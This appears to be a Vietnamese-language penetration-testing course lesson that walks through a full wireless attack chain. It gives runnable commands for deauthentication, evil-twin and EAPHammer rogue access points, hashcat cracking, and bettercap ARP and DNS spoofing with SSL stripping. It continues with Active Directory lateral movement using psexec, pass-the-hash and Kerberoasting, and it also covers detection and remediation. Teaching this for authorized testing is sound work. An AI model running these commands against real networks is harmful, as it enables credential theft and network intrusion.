

> **Prerequisites**: Tất cả lessons 01–09
> **Objectives**:
> - Tổng hợp toàn bộ wireless attack chain từ recon đến lateral movement
> - Áp dụng tư duy quyết định (decision framework) trong real engagement
> - Hiểu cách pivot từ WiFi foothold vào Active Directory
> - Xây dựng mindset pentest wireless chuyên nghiệp

---

## Overview & Mindset

Wireless pentesting không phải là "chạy tool rồi thu credential". Nó là một **attack chain có logic**: mỗi bước phụ thuộc vào output của bước trước, và mỗi quyết định ảnh hưởng đến cả opsec lẫn outcome.

Mindset cần có:

**Think in layers** — WiFi chỉ là Layer 2. Mục tiêu thật sự thường là Layer 7: credentials, session tokens, AD access.

**Escalate methodically** — Không nhảy thẳng vào loud attacks. Passive recon trước, targeted attack sau.

**Know when to stop** — Nếu WPA3 pure + PMF + WIPS → cost/benefit analysis. Chuyển sang WPA-Enterprise vector hoặc social engineering thay vì brute-force.

**Document everything** — Wireless engagements thường để lại ít log trên server. Client muốn proof of concept đầy đủ.

---

## Enumeration Checklist

Bắt đầu mọi wireless engagement bằng passive recon. Không inject, không deauth, không noisy action.

```
PHASE 0 — PASSIVE RECON (không injection, không action)
□ Enable monitor mode: airmon-ng check kill && airmon-ng start wlan0
□ Scan toàn bộ environment: airodump-ng wlan0mon (ít nhất 5 phút)
□ Ghi lại: SSID, BSSID, Channel, ENC (WPA2/WPA3), CIPHER, AUTH (PSK/MGT)
□ Xác định target network(s) và channel
□ Observe clients: MAC addresses, probe requests, signal strength
□ Xác định devices đang probe (PNL leak)
□ Kiểm tra PMF (Protected Management Frames): thấy trong capabilities
□ Nếu Enterprise: note down BSSID và observe clients connecting (EAP identity leaks)
□ Lock channel: airodump-ng -c CH --bssid BSSID -w capture wlan0mon
□ Thu thập handshake nếu WPA2 (passive — chờ client kết nối lại tự nhiên)

PHASE 1 — ACTIVE ENUMERATION
□ Xác định có bao nhiêu APs cùng SSID (multi-AP deployment?)
□ Kiểm tra signal strength từ các hướng khác nhau
□ Xác định loại EAP (PEAP/TTLS/TLS) nếu là Enterprise
□ Check hidden SSIDs: airodump-ng --show-wps wlan0mon
□ Identify management console leaks (802.11 management frames)
```

---

## Decision Framework



---

## Tool Stack

| Phase | Tool | Tác dụng |
|-------|------|---------|
| **Recon** | `airodump-ng` | Passive scan — APs, clients, channels |
| **Recon** | `airodump-ng -c -w` | Targeted capture + handshake |
| **Deauth** | `aireplay-ng --deauth` | Force client disconnect (WPA2 no PMF) |
| **Rogue AP (PSK)** | `hostapd` + `dnsmasq` + `iptables` | Manual Evil Twin |
| **Rogue AP (PSK)** | `Fluxion` / `Airgeddon` | Automated Evil Twin |
| **Rogue AP (Enterprise)** | `EAPHammer` | WPA-Enterprise + Karma/MANA |
| **Rogue AP (Enterprise)** | `hostapd-wpe` | Manual WPA-Enterprise |
| **KARMA/MANA** | `EAPHammer --karma/--mana` | PNL exploitation |
| **Post-Connection** | `bettercap` | ARP spoof, DNS spoof, SSL strip |
| **Post-Connection** | `mitmproxy` | Advanced HTTPS inspection |
| **Cracking** | `hashcat -m 5600` | MSCHAPv2 NTHash offline crack |
| **Cracking** | `hashcat -m 13100` | WPA2 PMKID / handshake crack |
| **Lateral Movement** | `impacket suite` | SMB, WMI, Kerberos attack |

---

## Common Findings & Patterns

**Finding 1 — WPA-Enterprise misconfigured certificate validation**
Phổ biến nhất trong enterprise environments. Client không enforce server cert → EAPHammer capture MSCHAPv2 thành công. Thường gặp với Windows NPS + old supplicant config.

**Finding 2 — WPA2-Personal PSK với weak password**
Deauth → handshake capture → hashcat crack. Thường gặp khi IT dept set password yếu hoặc dùng company name + năm.

**Finding 3 — Open guest network với flat network (không VLAN)**
Kết nối vào guest WiFi → access vào internal network vì không có proper segmentation. MitM toàn bộ traffic corporate.

**Finding 4 — Karma/MANA vulnerable devices**
IoT devices, printers, legacy laptops gửi directed probe requests → automatic connect vào rogue AP. Sau đó post-connection exploit.

**Finding 5 — WPA3 downgrade (mixed mode)**
AP cấu hình WPA3 + WPA2 mixed → client WPA2 kết nối được → Evil Twin WPA2.

---

## Full Attack Chain — Step-by-Step Reference

Đây là reference tổng hợp cho một engagement hoàn chỉnh từ parking lot đến domain admin.

### Stage 1: Recon (15–30 phút)

```bash
# Setup
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Scan environment
sudo airodump-ng wlan0mon

# Lock target (ghi SSID, BSSID, CH, ENC, AUTH)
sudo airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF -w /tmp/capture
```

### Stage 2a: WPA2-Personal Attack

```bash
# Rogue AP
cat > /tmp/rogue.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=TARGET_SSID
hw_mode=g
channel=6
EOF
sudo hostapd /tmp/rogue.conf &
sudo ip addr add 192.168.2.1/24 dev wlan1

# DHCP + DNS redirect
# dnsmasq.conf: interface=wlan1 / dhcp-range / address=/#/192.168.2.1
sudo dnsmasq -C /tmp/dns.conf

# iptables NAT
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -j ACCEPT
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.2.1:8080

# Captive portal
sudo python3 /tmp/portal/capture.py &

# Deauth
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Monitor captures
tail -f /tmp/captures.txt
```

### Stage 2b: WPA-Enterprise Attack

```bash
cd /opt/eaphammer

# Certs
sudo ./eaphammer --cert-wizard --cn "radius.corp.local"

# Attack
sudo ./eaphammer -i wlan0 \
    --channel 6 --auth wpa-eap \
    --essid "Corp-Enterprise" \
    --creds --dhcp

# Deauth (terminal 2)
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan1mon

# Crack
hashcat -m 5600 /tmp/eap_hashes.txt /usr/share/wordlists/rockyou.txt
```

### Stage 3: Post-Connection MitM

```bash
# Từ rogue AP (đã là gateway):
sudo bettercap -iface wlan1 -eval \
    "set dns.spoof.all true; dns.spoof on; \
     set https.proxy.sslstrip true; http.proxy on; https.proxy on; \
     net.sniff on"

# Từ shared network (cần ARP spoof):
sudo bettercap -iface wlan1 -eval \
    "set arp.spoof.targets TARGET_IP; set arp.spoof.fullduplex true; arp.spoof on; \
     set dns.spoof.all true; dns.spoof on; \
     set https.proxy.sslstrip true; http.proxy on; https.proxy on; \
     net.sniff on"
```

### Stage 4: Lateral Movement into AD

```bash
# Sau khi có domain credentials (username:password hoặc NTHash):

# Test access
impacket-smbclient DOMAIN/user:pass@DC_IP
impacket-psexec DOMAIN/user:pass@TARGET_IP

# Enumerate AD
impacket-GetADUsers -all DOMAIN/user:pass -dc-ip DC_IP
bloodhound-python -u user -p pass -d DOMAIN -dc DC_IP -c all

# Kerberoasting nếu có domain user
impacket-GetUserSPNs DOMAIN/user:pass -dc-ip DC_IP -request

# Pass-the-Hash nếu có NTHash (không cần crack)
impacket-wmiexec DOMAIN/user@TARGET_IP -hashes :NTHash
```

---

## Reporting Notes

Trong wireless pentest report, ghi lại:

**Evidence cần thu thập:**
- Screenshot airodump-ng thấy target AP
- Proof rogue AP hoạt động (screenshot client connecting)
- Screenshot/log credential bị capture (password or hash)
- Screenshot crack thành công hoặc cleartext creds
- Proof of lateral movement (AD access, file access)

**Risk Rating factors:**
- WPA2-Personal PSK → Medium/High (tùy password strength)
- WPA-Enterprise no cert validation → High (domain creds exposed)
- Post-connection MitM successful → High (credential harvest)
- Pivot to AD → Critical

**Remediation recommendations:**
- WPA-Enterprise: enforce server certificate validation
- WPA2-Personal: strong passphrase (20+ chars, random)
- WPA3-SAE: upgrade + enable PMF mandatory
- WIPS deployment: Cisco Adaptive WIPs, Aruba RFProtect
- Network segmentation: WiFi VLAN isolation
- VPN mandatory: encrypt traffic kể cả khi trên corporate WiFi

---

## Daily Drill

**Thời gian**: 20–30 phút/ngày — review và drill full chain.

**Drill 1 — Decision Tree Scenario Practice**
Nhận một scenario → quyết định attack path trong dưới 30 giây:

- "WPA2-Personal, PMF off, 5 clients" → Deauth + Evil Twin + Captive Portal
- "WPA-Enterprise, MGT auth, 20 clients" → EAPHammer --creds
- "WPA3-SAE, không có clients probe" → Known Beacon + Captive Portal
- "WPA2 + WPA3 mixed" → WPA2 Evil Twin path

**Drill 2 — Quick Tool Selection**
Tool → Use case (phải trả lời ngay lập tức):
- Rogue AP manual → `hostapd + dnsmasq`
- Enterprise rogue AP → `EAPHammer`
- ARP poison → `bettercap arp.spoof`
- DNS redirect → `bettercap dns.spoof` hoặc `dnsmasq address=/#/IP`
- SSL strip → `bettercap https.proxy.sslstrip`
- Deauth WPA2 → `aireplay-ng --deauth`
- Crack MSCHAPv2 → `hashcat -m 5600`
- AD enumeration → `bloodhound-python`

**Drill 3 — Full chain speed run**
Trong VM lab: từ airmon-ng start đến first credential captured — target < 15 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators — Full Chain
> **Stage 1 (Recon)**: Passive scanning — khó detect. Nếu AP log probe requests, thấy probe từ unknown MACs.
>
> **Stage 2 (Evil Twin)**: Duplicate SSID + BSSID trong WIPS; deauth flood trong wireless logs; 802.11 management frame anomalies.
>
> **Stage 3 (MitM)**: ARP table changes; DNS responses từ unexpected IPs; HTTP traffic đến sites bình thường là HTTPS.
>
> **Stage 4 (Lateral)**: Unusual authentication events trong AD logs; SMB/WMI access từ unexpected sources; BloodHound query patterns.

> [!note] Defense in Depth
> Không có single control nào đủ. Defense in depth cho wireless:
> 1. WPA3-SAE + PMF mandatory (ngăn deauth + Evil Twin)
> 2. WPA-Enterprise với server cert validation + certificate pinning (ngăn EAPHammer)
> 3. WIPS deployment (detect rogue APs, deauth floods)
> 4. Client isolation + VLAN segmentation (giảm tác hại khi bị MitM)
> 5. VPN bắt buộc kể cả trên corporate WiFi (end-to-end encryption)
> 6. DoH/DoT (ngăn DNS spoofing)
> 7. HSTS Preloading cho tất cả web properties (ngăn SSLStrip)
> 8. Regular wireless audits (tự pentest định kỳ)

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB Academy | **Attacking Corporate Wi-Fi Networks** | Full wireless pentest simulation từ đầu đến AD compromise |
| HTB Academy | **Wi-Fi Evil Twin Attacks** | Core module cho Evil Twin + MitM |
| HTB | **Querier** (Retired) | Lateral movement sau khi có credential |
| HTB | **Active** (Retired) | AD exploitation sau wireless foothold |
| Local VMs | Full lab: Kali + Windows AD + Windows Victim + FreeRADIUS | Reproduce toàn bộ attack chain |
